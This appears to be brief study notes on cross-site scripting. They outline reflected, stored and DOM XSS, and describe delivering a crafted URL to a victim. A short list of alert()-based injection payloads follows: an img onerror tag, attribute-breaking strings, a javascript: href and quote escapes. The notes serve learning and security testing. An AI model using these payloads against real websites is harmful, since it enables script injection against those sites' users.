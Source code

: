 # Type
1. Relfected XSS
2. Store XSS
3. DOM XSS

- Reflected XSS:
    - Tatics: make attacker's JS code run on victims browser
    - Technique: Create payload and combine it to url of vuln website, send that URL to victim
    - Procedures: use burpsuite, inspect tool, ... to test payload, add payload to URL

# Payload

1. `<img src=1 onerror=alert()>`
2. `" onfocus="alert()`
3. `onload="this.src+=<img src=1 onerror=alert()>`
4. Anything put inside href use this payload `javascript:alert()`
5. `'-alert(1)-'`
6. or `'; alert();'`
